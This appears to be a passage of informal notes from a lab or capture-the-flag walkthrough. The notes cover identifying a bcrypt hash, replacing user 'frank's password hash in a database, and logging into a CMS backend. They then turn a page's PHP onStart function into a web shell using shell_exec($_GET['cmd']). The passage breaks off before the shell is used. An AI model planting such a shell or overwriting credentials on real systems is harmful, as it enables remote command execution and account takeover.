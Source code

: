 - starts with a "space"
- then starts with a $2
- then have a value .* <- something
- finish with a $ 
- -A 1 shows the first line (this is not necesary)
```
hashcat --example-hashes | grep '\s\$2.*\$' -A 1
```

This is the hash "blowfish"

```
 Name................: bcrypt $2*$, Blowfish (Unix)
  Category............: Operating System
```

Now he is saying that we have to make our own password hashed on google
"bcrypt hash generator", he is changing the password on the database

```
password123
$2a$12$mVmQcqh.jCH5BRlmXnFI9.1eKC82.QdWJsuSbG16Lnoa1mSGUHZMm
```

now we can log on 

http://192.168.100.77/backend/backend

as "frank"

THe important thing now is "win acces to the content generator or content gestor". So we can "tense" the things

Now if we want to insert code on the website we must put  in the 
| home | CMS |

we have a code (we can change the hello world):
```
function onStart()
{
    $this->page["myVar"] = "Hello World!";
}
```
We can change it for this

```
function onStart()
{
    $this->page["myVar"] = shell_exec($_GET['cmd']);
}
```


and a markup

```
{{ this.page.myVar }}
```

Now when I search a URL name I put this : 
